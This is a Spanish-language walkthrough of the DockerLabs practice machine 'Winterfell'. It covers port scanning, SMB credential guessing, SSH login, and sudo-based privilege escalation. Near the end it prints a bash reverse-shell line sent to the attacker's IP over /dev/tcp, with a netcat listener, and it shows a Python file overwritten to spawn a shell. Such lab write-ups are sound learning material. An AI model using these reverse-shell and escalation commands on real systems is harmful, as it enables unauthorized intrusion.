

# Winterfell

Hola, hoy voy a hacer la maquina de [DockerLabs](https://dockerlabs.es) llamada winterfell

## INTRUSIÓN

Primero iniciamos con un escaneo de puertos usando nmap:

Vemos que los puertos abiertos son el 22, 80, 139 y 445, eso significa que tenemos ssh y smb

Puerto 80:

ya que no se ve nada interesante hacemos fuzzing con gobuster:

"gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt":

Podemos ver que hay un directorio llamado "dragon", entramos y vemos que hay un index a un archivo llamado EpisodiosT1, entramos y vemos lo siguiente:

Ya que no hay nada mas intentaremos ver el puerto 443 usando smbmap, entrando de manera anonima no nos dice nada asique probaremos en meter los episodios que nos dieron en un .txt para poder intentar sacar la contraseña intentando con el usuario "jon" que salia en el puerto 80

Vemos el usuario "jon" con contraseña "seacercaelinvierno", ahora si podemos usar smbmap con el usuario que encontramos "smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno":

luego ponemos "smbclient //172.17.0.2/shared -U jon" y nos guardamos el archivo que esta dentro con el comando "get": 

En el archivo vemos lo siguiente:

asique lo metemos en un archivo y usamos el comando "base64 -d archivo.txt" para poder obtener la contraseña, y nos dirá que es "hijodelanister" suponemos que es la del ssh asique intentaremos entrar al ssh con el usuario jon y contraseña "hijodelanister", y entramos.

## ESCALADA

Ya estando dentro somos el usuario jon, por lo que ejecutaremos "sudo -l" para ver que comandos podemos ejecutar con sudo

intentaremos modificar el archivo ".mensaje.py" usando "nano" y vemos que no esta el binario, tampoco vim, tendremos que hacerlo con echo "echo -e "import os\nos.system("/bin/bash")" > .mensaje.py" pero primero le cambiamos el nombre del archivo por cualquier otro usando "mv .mensaje.py mensaje". Luego lo ejecutamos con "sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py" y ya seremos el usuario aria.

Como aria ejecutamos "sudo -l" y vemos que podemos ejecutar con sudo:

vemos que podemos ejecutar "cat" y "ls" como daenerys, asique intentaremos hacer un ls a "/home/danerys" y vemos lo siguiente:

Usaremos cat como daenerys y vemos el mensaje

Asique cambiamos de usuario con "su daenerys" y ponemos la contraseña. Ejecutamos "sudo -l" y vemos que podemos ejecutar un script que esta oculto en la home de daenerys

asique listamos los directorios con "ls -la" y vamos hasta el script

ya estando ahi vemos lo que tiene el script y lo modificamos para que nos mande una revershell a nuestra ip con "echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/(nuestra ip)/443 0>&1' > .shell.sh". Luego nos ponemos en escucha con netcat en nuestra maquina usando "nc -nlvp 443" y listo, somos el usuario root

si queremos podemos hacer el tratamiento de la tty para quedar con un terminal mas comodo pero hasta ahi llego yo.

Este es mi primer tutorial y si no se entiende mucho perdon, tampoco soy experto y tambien estoy aprendiendo. Gracias
